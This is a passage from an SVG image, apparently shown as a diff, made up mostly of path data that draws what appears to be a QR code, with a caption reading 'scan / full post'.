24h11v1h-11zM44 24h1v1h-1zM3 25h2v1h-2zM7 25h1v1h-1zM9 25h2v1h-2zM13 25h1v1h-1zM15 25h2v1h-2zM19 25h1v1h-1zM21 25h1v1h-1zM25 25h1v1h-1zM27 25h2v1h-2zM31 25h1v1h-1zM34 25h2v1h-2zM37 25h5v1h-5zM44 25h1v1h-1zM0 26h3v1h-3zM6 26h7v1h-7zM14 26h1v1h-1zM17 26h2v1h-2zM20 26h1v1h-1zM23 26h1v1h-1zM26 26h4v1h-4zM31 26h2v1h-2zM36 26h2v1h-2zM43 26h1v1h-1zM4 27h2v1h-2zM7 27h2v1h-2zM10 27h1v1h-1zM16 27h2v1h-2zM19 27h2v1h-2zM23 27h1v1h-1zM27 27h1v1h-1zM30 27h1v1h-1zM32 27h2v1h-2zM36 27h1v1h-1zM38 27h2v1h-2zM41 27h1v1h-1zM43 27h1v1h-1zM0 28h1v1h-1zM6 28h1v1h-1zM8 28h4v1h-4zM14 28h1v1h-1zM20 28h2v1h-2zM26 28h2v1h-2zM29 28h1v1h-1zM31 28h3v1h-3zM37 28h1v1h-1zM39 28h2v1h-2zM43 28h2v1h-2zM0 29h2v1h-2zM3 29h1v1h-1zM7 29h3v1h-3zM12 29h1v1h-1zM14 29h2v1h-2zM18 29h2v1h-2zM22 29h3v1h-3zM26 29h1v1h-1zM28 29h2v1h-2zM31 29h1v1h-1zM33 29h1v1h-1zM35 29h3v1h-3zM41 29h4v1h-4zM1 30h1v1h-1zM3 30h4v1h-4zM8 30h4v1h-4zM13 30h2v1h-2zM16 30h1v1h-1zM19 30h3v1h-3zM24 30h1v1h-1zM28 30h3v1h-3zM32 30h1v1h-1zM36 30h1v1h-1zM38 30h1v1h-1zM40 30h1v1h-1zM42 30h3v1h-3zM1 31h2v1h-2zM7 31h1v1h-1zM10 31h1v1h-1zM12 31h2v1h-2zM17 31h1v1h-1zM19 31h2v1h-2zM24 31h4v1h-4zM32 31h1v1h-1zM34 31h1v1h-1zM38 31h3v1h-3zM43 31h2v1h-2zM0 32h2v1h-2zM4 32h3v1h-3zM12 32h2v1h-2zM15 32h2v1h-2zM18 32h2v1h-2zM21 32h3v1h-3zM25 32h4v1h-4zM34 32h3v1h-3zM39 32h2v1h-2zM43 32h2v1h-2zM2 33h3v1h-3zM7 33h6v1h-6zM15 33h1v1h-1zM18 33h3v1h-3zM24 33h1v1h-1zM27 33h2v1h-2zM31 33h1v1h-1zM36 33h3v1h-3zM43 33h2v1h-2zM4 34h1v1h-1zM6 34h1v1h-1zM8 34h3v1h-3zM16 34h2v1h-2zM19 34h1v1h-1zM26 34h2v1h-2zM31 34h1v1h-1zM33 34h1v1h-1zM36 34h4v1h-4zM41 34h2v1h-2zM44 34h1v1h-1zM1 35h4v1h-4zM10 35h5v1h-5zM17 35h2v1h-2zM23 35h1v1h-1zM25 35h5v1h-5zM31 35h1v1h-1zM34 35h2v1h-2zM40 35h2v1h-2zM44 35h1v1h-1zM0 36h1v1h-1zM3 36h2v1h-2zM6 36h1v1h-1zM8 36h1v1h-1zM12 36h2v1h-2zM18 36h16v1h-16zM36 36h5v1h-5zM42 36h3v1h-3zM8 37h1v1h-1zM13 37h1v1h-1zM15 37h1v1h-1zM17 37h1v1h-1zM19 37h2v1h-2zM24 37h1v1h-1zM31 37h2v1h-2zM34 37h1v1h-1zM36 37h1v1h-1zM40 37h1v1h-1zM43 37h2v1h-2zM0 38h7v1h-7zM10 38h2v1h-2zM14 38h1v1h-1zM17 38h4v1h-4zM22 38h1v1h-1zM24 38h2v1h-2zM28 38h2v1h-2zM34 38h1v1h-1zM36 38h1v1h-1zM38 38h1v1h-1zM40 38h4v1h-4zM0 39h1v1h-1zM6 39h1v1h-1zM8 39h3v1h-3zM15 39h1v1h-1zM18 39h1v1h-1zM20 39h1v1h-1zM24 39h1v1h-1zM26 39h3v1h-3zM31 39h1v1h-1zM33 39h1v1h-1zM36 39h1v1h-1zM40 39h1v1h-1zM44 39h1v1h-1zM0 40h1v1h-1zM2 40h3v1h-3zM6 40h1v1h-1zM9 40h1v1h-1zM12 40h4v1h-4zM17 40h1v1h-1zM19 40h6v1h-6zM27 40h1v1h-1zM32 40h10v1h-10zM0 41h1v1h-1zM2 41h3v1h-3zM6 41h1v1h-1zM8 41h3v1h-3zM12 41h2v1h-2zM16 41h1v1h-1zM19 41h3v1h-3zM24 41h1v1h-1zM26 41h1v1h-1zM28 41h2v1h-2zM36 41h2v1h-2zM41 41h2v1h-2zM0 42h1v1h-1zM2 42h3v1h-3zM6 42h1v1h-1zM9 42h2v1h-2zM12 42h1v1h-1zM14 42h4v1h-4zM19 42h4v1h-4zM27 42h1v1h-1zM31 42h1v1h-1zM35 42h7v1h-7zM43 42h2v1h-2zM0 43h1v1h-1zM6 43h1v1h-1zM9 43h3v1h-3zM13 43h1v1h-1zM15 43h1v1h-1zM17 43h2v1h-2zM20 43h1v1h-1zM24 43h1v1h-1zM27 43h3v1h-3zM31 43h2v1h-2zM35 43h3v1h-3zM40 43h2v1h-2zM0 44h7v1h-7zM8 44h1v1h-1zM12 44h4v1h-4zM18 44h2v1h-2zM21 44h1v1h-1zM24 44h6v1h-6zM33 44h1v1h-1zM35 44h2v1h-2zM38 44h1v1h-1zM43 44h1v1h-1z" />
+     </g>
+   </g>
+   <text x="1122" y="614" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="700" fill="#F5F7FA" text-anchor="middle">scan / full post</text>
</svg>
